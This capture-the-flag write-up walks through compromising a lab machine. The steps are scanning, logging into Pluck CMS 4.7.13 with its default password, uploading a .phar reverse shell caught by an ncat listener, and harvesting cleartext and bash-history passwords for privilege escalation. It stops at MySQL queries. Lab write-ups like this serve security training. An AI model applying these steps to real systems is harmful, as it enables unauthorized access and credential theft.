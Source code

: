 I always start with a ping to see that I have a connection to the machine and also figure out the OS of the machine.
```
sudo ping -c4 10.10.116.166
PING 10.10.116.166 (10.10.116.166) 56(84) bytes of data.
64 bytes from 10.10.116.166: icmp_seq=1 ttl=63 time=89.3 ms
64 bytes from 10.10.116.166: icmp_seq=2 ttl=63 time=86.3 ms
64 bytes from 10.10.116.166: icmp_seq=3 ttl=63 time=84.3 ms
64 bytes from 10.10.116.166: icmp_seq=4 ttl=63 time=103 ms

--- 10.10.116.166 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 84.333/90.641/102.610/7.131 ms
```
 
I then like to do a basic Nmap scan of all ports. Using sudo makes Nmap default to "Stealth scan".  
Machines rated "easy" rarely require scanning of all ports, but I like to scan them to ensure I'm not missing anything.  
```
sudo nmap -p- 10.10.116.166
Starting Nmap 7.94SVN ( https://nmap.org ) 
Nmap scan report for 10.10.116.166
Host is up (0.086s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 301.79 seconds
```
 
So there are SSH and HTTP server ports open so let's look at them next in more depth. 
```
sudo nmap -sVC -p22,80 10.10.116.166
Starting Nmap 7.94SVN ( https://nmap.org )
Nmap scan report for 10.10.116.166
Host is up (0.098s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 76:26:67:a6:b0:08:0e:ed:34:58:5b:4e:77:45:92:57 (RSA)
|   256 52:3a:ad:26:7f:6e:3f:23:f9:e4:ef:e8:5a:c8:42:5c (ECDSA)
|_  256 71:df:6e:81:f0:80:79:71:a8:da:2e:1e:56:c4:de:bb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.45 seconds
```
 
HTTP server is only the default Apache page. Let's find some directories. My default is feroxbuster but gobuster or fuff are also good.
```
feroxbuster -u http://10.10.116.166

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.116.166
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      278c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      312c http://10.10.116.166/app => http://10.10.116.166/app/
301      GET        9l       28w      325c http://10.10.116.166/app/pluck-4.7.13 => http://10.10.116.166/app/pluck-4.7.13/
200      GET       15l       74w     6147c http://10.10.116.166/icons/ubuntu-logo.png
200      GET      375l      964w    10918c http://10.10.116.166/
[####################] - 74s    30007/30007   0s      found:4       errors:1
[####################] - 74s    30000/30000   404/s   http://10.10.116.166/
[####################] - 0s     30000/30000   138889/s http://10.10.116.166/app/ => Directory listing
```
 
There is `/app` which then has `/pluck-4.7.13`. The site has two links at the bottom. Another is to `www.pluck-cms.org` which redirects to the GitHub page of Pluck CMS and the other to an admin login page.  
The Login page only requires a password so I tried the most obvious one and got in. The password was the documented default one.  
The pluck CMS version is 4.7.13 so I searched vulnerabilities for in that version from searchsploit.  
```
searchsploit pluck 4.7.13
-------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                  |  Path
-------------------------------------------------------------------------------- ---------------------------------
Pluck CMS 4.7.13 - File Upload Remote Code Execution (Authenticated)            | php/webapps/49909.py
-------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
 
There seems to be a file upload vulnerability. Looking at it a bit deeper reveals that the vulnerability is related to pluck CMS not blocking .phar extension.  
I used `PHP Ivan Sincek` from `https://www.revshells.com/` to create a reverse shell with .phar extension which I can upload to the admin page.  
The upload is successful and the panel gives us a handy link for the file so we don't even have to search for it. Let's then start ncat listener before going to the link and executing it.  
```
ncat -lvnp 1234
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.116.166:41598.
SOCKET: Shell has connected! PID: 39496
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
 
I checked if the machine has python3 installed to get a better, interactive shell. 
```
which python3
/usr/bin/python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL-Z
stty raw -echo && fg
```
 
I could not find anything of interest in the directories I landed to and then went to look in the home folders of the other users.  
There was nothing of interest in the `/home/lucien` folder that I could read. In the `/opt` directory on the other hand were two files that I could read.  
The file owned by lucien has a cleartext password that lets me SSH into the machine or optionally just use `su lucien`.   
Now we can read the `lucien_flag.txt`

Having the password of the user I want to see if the user can run commands as root or as another user.  
```
sudo -l
Matching Defaults entries for lucien on dreaming:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on dreaming:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py
```   
    
The file with the same name is in the `/opt` directory so let's look at that. The script connects as `death` user to the MySQL server, fetches data, and then prints it out using a shell command.  
The script in `/home/death/getDreams.py` has credentials but we can't read it. There might be credentials for the database somewhere. `lucien` has bash history on so let's look at that.  

There are a few commands in the history but one was used to log into the mysql and has a password in it. Let's test that.  
```
mysql -u lucien -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 10
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```
    
It works so then we can try to input code into the MySQL database and see if the script executes it.  
`show databases;` shows us the databases in MySQL.  
`use library;` to use the `library` database.  
`show tables;` to show the tables in the selected database.  
`select * from dreams;` to show everything from the tables.  











